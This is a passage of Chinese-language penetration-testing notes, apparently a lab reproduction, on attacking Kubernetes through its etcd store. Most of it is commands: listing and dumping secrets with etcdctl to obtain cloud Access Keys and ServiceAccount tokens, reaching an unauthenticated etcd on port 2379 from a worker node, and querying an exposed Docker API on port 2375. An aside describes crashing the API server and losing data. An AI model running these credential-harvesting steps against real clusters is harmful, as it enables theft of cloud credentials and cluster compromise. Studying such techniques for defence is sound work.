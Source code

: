 --endpoints=http://10.206.0.2:2379



获取云产品Access Key

```plain
etcdctl get / --prefix --keys-only | grep /secrets/
etcdctl get /registry/secrets/default/acr-credential-518dfd1883737c2a6bde99ed6fee583c
```

![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1665423156674-4ea4c709-9424-45ad-bdd4-bd12f8288b4d.png)

获取ServiceAccount 登陆凭证

```plain
etcdctl get / --prefix --keys-only | grep /secrets/kube-system/clusterrole
etcdctl get /registry/secrets/kube-system/clusterrole-aggregation-controller-token-ckt8q
```

![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1665423370619-68881ab3-4550-4654-ad51-6b621f0ece4a.png)

通过Service Account token可以与API server进行通信，参考[这里](https://m-king.yuque.com/epgybr/xtmnwr/nnn5rm#KVFP3)

## 2379未授权
```plain
#修改Master节点上配置文件
/etc/kubernetes/manifests/etcd.yaml

#重启kubelet服务
systemctl daemon-reload
systemctl restart kubelet
```

> 复现的时候翻车了，修改完配置文件后，把API server整崩溃了，根据网上的解决方案，把etcd的snap文件删了，然后发现数据都没了；还要在Master节点上 kill etcd进程；然后把Master节点跟Node节点的kubelet服务重启
>

![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1665423897418-73828539-2b5b-44e6-b851-e1bd43f135c4.png)

```plain
#在Node工作节点上执行，未授权访问etcd服务
etcdctl --endpoints=http://10.206.0.2:2379 get / --prefix --keys-only | grep /secrets/
etcdctl --endpoints=http://10.206.0.2:2379 get /registry/secrets/default/default-token-shlxc
```

 ![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1665423946174-928ab793-3b60-41f5-a610-d231cc465b0f.png)

```plain
#获取所有容器信息
curl http://10.206.0.3:2375/containers/json
```

![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1665424668888-48456cc2-09e6-4681-a002-f2563d441cbc.png)

